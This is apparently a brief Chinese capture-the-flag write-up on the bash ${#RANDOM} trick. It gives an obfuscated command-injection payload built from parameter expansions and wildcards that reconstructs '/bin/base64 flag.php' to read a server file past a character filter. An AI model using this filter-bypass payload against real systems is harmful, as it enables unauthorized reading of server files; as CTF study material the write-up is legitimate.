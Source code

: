 # 知识点
```bash
${#RANDOM}
随机数
```

# 思路
```bash
方法一
code=${PWD::${#SHLVL}}???${PWD:${#}:${#SHLVL}}?????${#RANDOM} ????.???
/bin/base64 flag.php
```
![image.png](./images/20231017_2350301821.png)
